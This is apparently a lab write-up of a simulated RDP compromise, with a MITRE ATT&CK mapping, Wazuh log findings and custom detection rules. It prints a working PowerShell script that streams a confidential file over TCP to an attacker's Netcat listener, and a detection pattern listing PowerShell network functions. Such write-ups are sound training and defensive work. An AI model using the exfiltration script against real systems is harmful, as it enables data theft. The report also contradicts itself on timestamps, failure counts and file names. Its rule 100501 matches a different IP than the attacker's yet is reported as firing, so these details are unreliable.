







# 04 - RDP Compromise and MITRE ATT&CK Mapping

## Objective

Develop a realistic cyberattack scenario involving RDP and map the attack flow using the updated MITRE ATT&CK Enterprise Matrix. Steal confidential corporate data and delay detection by erasing evidence of the intrusion.

Brute force > 
Intern RDP login > 
Password in PDF > 
Manager RDP login > 
PowerShell exfil > 
Log clearing

Apply threat intelligence, Wazuh log analysis, and custom detection engineering to investigate and detect selected activities.

## Incident Story

An external attacker found an exposed Remote Desktop Protocol (RDP) service on a corporate Windows endpoint. They brute-forced the password of a low-privilege local account, Intern, and logged in.

On the Intern desktop, the attacker found an unencrypted file, Employee_Onboarding.pdf. It held the default password for a newly created IT Manager account (Kevin) that has local administrator rights.

The attacker opened a new RDP session as the Manager account and found unencrypted sensitive data, Trade Secret.docx. They opened PowerShell and ran a custom TCP socket script that streamed the file to a Netcat listener on their own machine. This avoids browser monitoring.

Before disconnecting, the attacker cleared the Windows Security and Sysmon event logs.

## Scope

### MITRE ATT&CK Mapping

I mapped the attack to the updated MITRE ATT&CK Enterprise Matrix using ATT&CK Navigator. The layer has nine techniques, in attack order. A technique and its sub-technique count as one step.

**Navigator layer:** 

This is a mapping of a hypothetical scenario. Not every technique has log evidence in my lab.

### Techniques in attack sequence

| # | Tactic | ID | Technique | My attack |
| --- | --- | --- | --- | --- |
| 1 | Initial Access | T1133 | External Remote Services | RDP exposed to the attacker |
| 2 | Credential Access | T1110.001 | Brute Force: Password Guessing | Repeated guesses against the Intern account |
| 3 | Credential Access | T1552.001 | Unsecured Credentials: Credentials In Files | Default password read from Employee_Onboarding.pdf |
| 4 | Privilege Escalation | T1078.003 | Valid Accounts: Local Accounts | Login as the Manager account (local admin) |
| 5 | Collection | T1005 | Data from Local System | Trade Secret.docx found on the Manager desktop |
| 6 | Execution | T1059.001 | Command and Scripting Interpreter: PowerShell | TCP socket script run in PowerShell |
| 7 | Exfiltration | T1048.003 | Exfiltration Over Alternative Protocol: Exfiltration Over Unencrypted Non-C2 Protocol | Raw TCP stream to Netcat on port 4444 |
| 8 | Defense Impairment | T1685.005 | Disable or Modify Tools: Clear Windows Event Logs | wevtutil used on the Security and Sysmon logs |

## Wazuh Investigation

For each stage of the attack I picked the Windows or Sysmon event that should exist, searched for it in Wazuh, and recorded the fields.

### Lab Environment

| Component | Role | Detail |
| --- | --- | --- |
| Windows endpoint | Target | Hostname securedot, Wazuh agent windows_agent, IP 192.168.253.1, Sysmon installed |
| Kali Linux | Attacker | IP 192.168.253.128, workstation name kali, Netcat listener on port 4444 |
| Ubuntu Server | Wazuh manager | Hostname Wazuhserver |

All testing ran on an isolated lab network.

## Evidence Summary

| ID | Stage | Event | Wazuh rule | Key fields | Status |
| --- | --- | --- | --- | --- | --- |
| AUTH-01 | Brute force | Security 4625 (11 events) | 60122, level 5 | Account Intern, workstation kali, source 192.168.253.128, 02:08:18 to 02:20:59 | Confirmed |
| AUTH-02 | Brute force | Alert on repeated 4625 | 60204, level 10 | Multiple Windows Logon Failures | Confirmed |
| AUTH-03 | Intern compromised | Security 4624 | 100100 (custom), level 12 | Intern from 192.168.253.128 after 6 or more failures within 240s, 02:22:49 | Confirmed |
| AUTH-04 | Intern logoff | Security 4634 | 60137, level 3 | Logoff 4 ms after the 4624 alert | Confirmed |
| AUTH-05 | Manager login | Security 4624 | Not captured | Account Manager, workstation kali, source 192.168.253.128, record ID 7399 | Confirmed |
| AUTH-06 | Admin rights | Security 4672 | Not captured | Subject Manager, logon ID 0xc74691, SeSecurityPrivilege, SeBackupPrivilege, SeDebugPrivilege and others | Confirmed |
| PROC-01 | PowerShell starts | Sysmon 1 | Not captured | powershell.exe, user WORKGROUP\Manager, PID 2524, 03:07:55 | Confirmed |
| FILE-01 | Sensitive file read | Security 4663 | 100300 (custom) | Trade Secret.docx read (access mask 0x1) by powershell.exe, user Manager | Confirmed |
| EXFIL-01 | Exfiltration script | PowerShell 4104 | 100200 and 100501 (custom) | Script block sends the file to 192.168.253,128:4444, 03:08:26 | Confirmed |
| LOG-01 | Security log cleared | Security 1102 | Not captured | Cleared by Manager, logon ID 0x1ae155, record ID 7447 | Confirmed |
| LOG-02 | Sysmon log cleared | System 104 | Not captured | Microsoft-Windows-Sysmon/Operational log cleared by Manager, record ID 1239 | Confirmed |
| CRED-01 | Onboarding PDF read | None found | None | No file access event for Employee_Onboarding.pdf | Gap |
| EXFIL-02 | Outbound connection | Sysmon 3 | None | No network connection event found | Gap |

## Findings

**Failed logons (Intern).** Windows records each failed logon as Event 4625. Wazuh raised seven level 5 alerts (rule 60122) in about six seconds. All were for the Intern account, from workstation kali, source IP 192.168.253.128, with the reason "Unknown user name or bad password". Wazuh then raised rule 60204, Multiple Windows Logon Failures, at level 10. Eleven failures in twelve seconds from one source points to automated guessing.

 failed logon

 intern failed logon

**Successful logon after the failures.** Our custom rule 100100 fired on Event 4624: "Successful Windows logon for Intern from 192.168.253.128 after 6 or more failed attempts within 240s - possible brute force success". It is level 12. A success from the same source and account right after repeated failures is the main sign of a compromised account. The logoff (4634) was recorded 4 ms later, indicating a hit by an automated guessing tool.

 multiple failed logons

 failed logon then successful logon

**Manager login and admin rights.** Wazuh recorded a successful 4624 for Kevin from workstation kali at 192.168.253.128, the same machine that brute-forced Intern. Event 4672 followed with special privileges including SeSecurityPrivilege, SeBackupPrivilege, SeDebugPrivilege and SeImpersonatePrivilege, which confirms administrator rights.

 successful logon for manager

 admin logon for manager

**PowerShell and file access.**

 powershell.exe

**Exfiltration script.** PowerShell script block logging (Event 4104) captured the script below. It reads the file into bytes, opens a TCP connection to 192.168.253.128 on port 4444 and writes the bytes to the stream.

```xml

$attackerip = "192.168.253.128"
$port = 4444
$file = "C:\Users\Manager\Desktop\Trade Secret.txt"
$bytes = [System.IO.File]::ReadAllBytes($file)
$client = New-Object System.Net.Sockets.TCPClient($attackerip, $port)
$stream = $client.GetStream()
$stream.Write($bytes, 0, $bytes.Length)
$stream.Close()
$client.Close()

```

### Timeline (server time, UTC+1, 12 November 2026)

| Time | Event |
| --- | --- |
| 00:05:31-00:05:37 | Eleven failed Intern logons from 192.168.253.128 (4625) |
| 00:05:43 | Intern logon succeeds, rule 100100 fires |
| 00:07:22 | Manager logs on from 192.168.253.128 (4624), then 4672 |
| 00:07:55 | PowerShell starts under Manager (Sysmon 1) |
| 00:08:25 | Trade Secret.docx read by PowerShell (4663) |
| 00:08:25 | Exfiltration script logged (4104), rule 100501 fires |
| 00:09:34 | Security log cleared (1102) |
| 00:09:45 | Sysmon log cleared (System 104) |

### Gaps

I found some gaps in my evidence. 

1. **Employee_Onboarding.pdf.** No file access event was found. File auditing was not enabled on that file.
2. **Sysmon Event 3.** No outbound connection event reached Wazuh.
3. **Receiver-side proof.** There's a script, but the Netcat output did not show that the file arrived.
4. **Intern session.** No evidence of what the attacker did during the Intern session, such as browsing the desktop.

## Custom Rules

I wrote seven custom rules. Rules 100100 and 100501 are pattern rules that correlate several events. The other five match single events.

| Rule ID | Type | Level | Detects |
| --- | --- | --- | --- |
| 100100 | Pattern | 12 | Successful logon after repeated failures |
| 100501 | Pattern | 13 | Outbound PowerShell to the brute-force source after a brute-force success |
| 100200 | Single event | 5 | PowerShell script block (4104) |
| 100300 | Single event | 5 | File access (4663) |
| 100400 | Single event | 5 | Sysmon network connection (Event 3) |
| 100401 | Single event | 5 | Sysmon process creation (Event 1) |
| 100500 | Single event | 8 | PowerShell script block using network functions (parent of 100501) |

### Rule 100100: Brute-Force Success

**Detects.** A successful logon to an account after at least six failures from the same IP against the same username within 240 seconds.

**Log source and fields.** Windows Security log: win.system.eventID (4624), win.eventdata.ipAddress, win.eventdata.targetUserName.

**Conditions.** The success matches parent rule 60106 or 92657 and follows rules in the authentication_failed group. Six matches within 240 seconds with the same IP and username.

**Severity.** Level 12. MITRE tags: T1110, T1078.

```xml

<group name="windows,authentication,custom,">
  <rule id="100100" level="12" frequency="6" timeframe="240">
    <if_sid>60106,92657</if_sid>
    <if_matched_group>authentication_failed</if_matched_group>
    <field name="win.system.eventID">^4624$</field>
    <same_field>win.eventdata.ipAddress</same_field>
    <same_field>win.eventdata.targetUserName</same_field>
    <description>Successful Windows logon for $(win.eventdata.targetUserName) from $(win.eventdata.ipAddress) after 6 or more failed attempts within 240s - possible brute force success</description>
    <options>no_full_log</options>
    <group>authentication_success,authentication_failures,</group>
    <mitre>
      <id>T1110</id>
      <id>T1078</id>
    </mitre>
  </rule>
</group>

```

**Expected alert.** A level 12 alert naming the account and source IP after six failures and one success.

**Test result.** The rule fired as expected at 23:05:43. The alert reads "Successful Windows logon for Intern from 192.168.253.128 after 6 or more failed attempts within 240s - possible brute force success", with rule.firedtimes 1 and rule.frequency 6.

### Rule 100501: PowerShell Activity After Brute-Force Success

**Detects.** A PowerShell script block that references the brute-force source IP, shortly after a brute-force success on the same machine.

**Log source and fields.** PowerShell Operational log: win.eventdata.scriptBlockText (regex match on the IP) and win.system.computer.

**Conditions.** Parent rule 100500 matches, rule 100100 fired earlier on the same computer, and the script block text contains 192.168.253.128.

**Severity.** Level 13. MITRE tags in the rule: T1110, T1041.

```xml

<rule id="100501" level="13" frequency="2" timeframe="300">
  <if_sid>100500</if_sid>
  <if_matched_sid>100100</if_matched_sid>
  <same_field>win.system.computer</same_field>
  <field name="win.eventdata.scriptBlockText" type="pcre2">10\.0\.2\.30</field>
  <description>Outbound PowerShell connection to $(win.system.computer)'s brute-force source within 5 minutes of a successful brute-force logon</description>
  <options>no_full_log</options>
  <mitre>
    <id>T1110</id>
    <id>T1041</id>
  </mitre>
</rule>

```

**Expected alert.** A level 13 alert linking the exfiltration script to the earlier brute-force success.

**Test result.** The rule fired as expected. The alert reads "Outbound PowerShell connection to workgroup's brute-force source within 5 minutes of a successful brute-force logon".

**Parent rule 100500.** It matches PowerShell script blocks (rule 100200) that use network functions, and rule 100501 builds on it.

```xml

  <rule id="100500" level="8">
    <if_sid>100200</if_sid>
    <field name="win.eventdata.scriptBlockText" type="pcre2">(?i)(Net\.WebClient|Invoke-WebRequest|Invoke-RestMethod|TcpClient|UploadFile|UploadString|DownloadString|Net\.Sockets)</field>
    <description>PowerShell script block using network functions on $(win.system.computer)</description>
    <options>no_full_log</options>
    <mitre>
      <id>T1059.001</id>
    </mitre>
  </rule>

```

**Expected alert.** A level 8 alert when a powershell script makes a connection.

### Supporting Single-Event Rules

| Rule | Parent | Field matched | Level | MITRE tag | Test result |
| --- | --- | --- | --- | --- | --- |
| 100200 | 91802 | win.system.eventID = 4104 | 5 | T1059.001 | 4104 event collected |
| 100300 | 60103 | win.system.eventID = 4663 | 5 | T1005 | 4663 event collected |
| 100400 | 61605 | win.system.eventID = 3 | 5 | T1071 | No Sysmon Event 3 found |
| 100401 | 61603 | win.system.eventID = 1 | 5 | T1059 | Sysmon Event 1 collected |

## Threat Intelligence Analysis

192.168.253.128 is a private lab address, so no external reputation lookup was possible. Both indicators below are simulated lab indicators taken from my own logs. They are not real-world threat intelligence.

**Indicator 1: Attacker address 192.168.253.128 (simulated).**

- **Finding.** The eleven failed logons and both successful logons (Intern and manager) came from 192.168.253.128, workstation name kali.
- **Source.** Windows Security Events 4625 and 4624, collected by Wazuh.
- **Investigative value.** One address links the brute force, the Intern login and the Manager login. The exfiltration script sends data to the same address, which ties the entry point to the data theft.

**Indicator 2: PowerShell TCP script sending to 192.168.253.128:4444 (simulated).**

- **Finding.** A script block reads Trade Secret.docx and sends it to 192.168.253.128  on port 4444 through a System.Net.Sockets.TCPClient.
- **Source.** PowerShell Script Block Logging (Event 4104, Microsoft-Windows-PowerShell/Operational).
- **Investigative value.** It shows the file, the destination and the machine it ran on. The port and the TCPClient class give us values to search for in Sysmon Event 3, firewall logs and network logs.
- **Limitations.** A script block shows what the script was written to do. It does not prove the data arrived or who ran it. Port 4444 is not malicious on its own, although it is a common default listener port in offensive tools. Receiver-side or network evidence is needed to confirm the transfer.

## Detection Evaluation

| Rule | What it might miss | False positive | Improvement |
| --- | --- | --- | --- |
| 100100 (brute-force success) | Slow guessing spread over hours or many IPs. Guessing across many accounts from one IP. Gaps in event collection. | A user mistypes their password six times, then logs in. | Add the logon type (10 for RDP) and allowlist known admin IPs. |
| 100501 (PowerShell after brute-force success) | Exfiltration to a different IP than the login source. Exfiltration after more than 5 minutes. Any change to the hard-coded IP. | An admin mistypes a password, logs in, then runs a legitimate script that contacts the same host. | Replace the hard-coded 192.168.253.128 with the source IP captured by rule 100100 and allowlist known admin hosts. Also align its MITRE tags with our mapping (T1048.003). |
| 100400 (Sysmon network connection) | Connections excluded by the Sysmon config. Hosts without Sysmon. | Software updates and browsers. | Alert only on unusual processes such as PowerShell or cmd, or on rare external destinations. |
| 100401 (Sysmon process creation) | Processes started before Sysmon. Renamed binaries. | Admin scripts, patching tools and scheduled tasks. | Match specific command lines such as wevtutil cl and raise the level for them. |
| 100200 (PowerShell script block) | Obfuscated scripts if logging is partial. Hosts with logging off. | IT automation and login scripts. | Match patterns like TCPClient or Net.Sockets instead of every script block. |
| 100300 (file access) | Files not under audit. Renamed copies. | Backup or antivirus scans touching the file. | Exclude known backup and antivirus processes. |
| 100500 (PowerShell network functions) | Obfuscated or encoded scripts that avoid the listed keywords. Hosts with script block logging off. | IT scripts that legitimately use Invoke-WebRequest or Net.WebClient to download files. | Allowlist known admin scripts and combine the match with an external destination check. |

**Recommendations**

1. Do not expose RDP to the internet. Put it behind a VPN or gateway and require MFA.
2. Enforce strong passwords and an account lockout policy. Lockout would have stopped our seven-guess brute force.
3. Do not store default passwords in plain documents. Force a password change at first logon.
4. Apply least privilege so a low-privilege account does not lead to an admin account in one step.
5. Enable Security auditing (logon and file access), Sysmon and PowerShell Script Block Logging on every endpoint.
6. Forward logs to a protected central server. The log clearing in this lab was caught because Wazuh had already collected the events.
7. Alert on Event 1102, System Event 104 and wevtutil cl command lines.
8. Test every custom rule with positive and negative cases and record the results.


